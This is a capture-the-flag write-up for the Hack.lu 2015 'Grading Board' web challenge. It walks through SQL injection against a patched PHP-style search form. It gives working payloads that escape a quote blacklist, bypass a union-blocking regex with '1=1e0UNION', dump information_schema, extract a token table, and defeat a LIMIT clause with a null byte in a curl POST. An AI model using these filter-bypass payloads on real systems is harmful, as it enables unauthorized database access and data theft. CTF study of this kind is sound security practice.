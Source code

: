 #Hack.lu 2015 Grading Board [web] 300

#Problem
You are sitting in your computer science class and are already done with your assignment (well, who would have guessed that). But you know that even though you did a perfect job (obviously) your teacher will give you a shitty grade because he can't stand your face.<br>
Well well well, it is time to put your skills on the table and show that son of a ... (you know the word I am looking for)... who the boss is. Thanks to the Ashley Madison dump and the stupidity of your teacher (seriously, how can he even teach the class...) you got the login credentials to the grading board.<br>
But, unlucky for you, your shithead of class mate found a vulnerability inside the website and went all whitehat on that shit and reported it (believe me I know ....in a different world...), he was also tasked to improve the security of the system.<br>
Fortunately for you, he left his phone unlocked and unattended, which allowed you to forward yourself the email containing the patch for the website, .... end to end encryption out of the window right there....,<br>
Alright son, get your shit together and let's get cracking<br>

Here is the [patch](https://school.fluxfingers.net/static/chals/patch_953dc87b784435d237b33a4f2fc20612.diff)!<br>
And the [Website](https://school.fluxfingers.net:1506/)

The login credentials are:<br>
Username: kdavis<br>
Password: trolo!Fool<br>

##Solution
The website is divided into two parts: search and login.<br>
![github](https://github.com/st9140927/writeup/blob/master/Hack.lu CTF 2015/Grading Board [web] 300/1.png)<br>
![github](https://github.com/st9140927/writeup/blob/master/Hack.lu CTF 2015/Grading Board [web] 300/2.png)

The account for signing in is given in the problem description. After login, the website will ask for token.<br>
![github](https://github.com/st9140927/writeup/blob/master/Hack.lu CTF 2015/Grading Board [web] 300/3.png)

After taking a short look at the patch file, I saw following SQL syntax:
<pre>
<code>
select id, first_name, last_name from students
WHERE first_name='$name'
   OR last_name='$name' ORDER BY id ASC LIMIT 5;
</code>
</pre>

And the blacklist replaced **'**, **"**, **/** and ***** , So it was possible to use '**#\**' to escape the single quote. The SQL syntax would become:
<pre>
<code>
select id, first_name, last_name from students
            WHERE first_name='<SQLi>#\' OR last_name='<SQLi>#\' ORDER BY id ASC LIMIT 5;
</code>
</pre>

<br>After trying "**OR 1=1 #\**" as input, the SQLi worked.<br>
![github](https://github.com/st9140927/writeup/blob/master/Hack.lu CTF 2015/Grading Board [web] 300/4.png)

Also, the patch tried to disable union SQLi by regex: [^a-zA-Z0-9\_]union[^a-zA-Z0-9\_]<br>
But we still have some ways to bypass the limitation.<br>
[Union Bypass Reference](https://github.com/client9/libinjection/blob/master/data/sqli-rsalgado-bhusa2013.txt)<br>
In the reference, it showed that SQL syntax still worked with content "OR 1=1**e0**Union...". We could use this trick to bypass the above limitation.<br>

In the patch, it told us how the table name was generated and all the column names we had in the table, but it was also easy to use information\_schema to get all the information we needed. Just entered following input:
<pre><code>
AND 1=1e0UNION SELECT table_schema, table_name, column_name FROM information_schema.columns#\
</code></pre>

![github](https://github.com/st9140927/writeup/blob/master/Hack.lu CTF 2015/Grading Board [web] 300/5.png)<br>
The table name and column name were there!<br>

And then we entered following input:
<pre><code>
AND 1=1e0UNION SELECT 1, 2, token FROM t608f2cde509866e#\
</code></pre>

![github](https://github.com/st9140927/writeup/blob/master/Hack.lu CTF 2015/Grading Board [web] 300/6.png)

After summiting the token, I got the flag. :)<br>
![github](https://github.com/st9140927/writeup/blob/master/Hack.lu CTF 2015/Grading Board [web] 300/flag.png)

<br>
Note:<br>
It's also able to bypass the limit of "LIMIT 5" by using null byte. We can modify our input as following and use curl to send our post request:
<pre><code>
curl -X POST --data "name=AND 1=1e0union select table_schema, table_name, column_name FROM information_schema.columns;%00\&site=default&action=search" https://school.fluxfingers.net:1506/
</code></pre>
And you can get the whole results instead of 5 columns only.

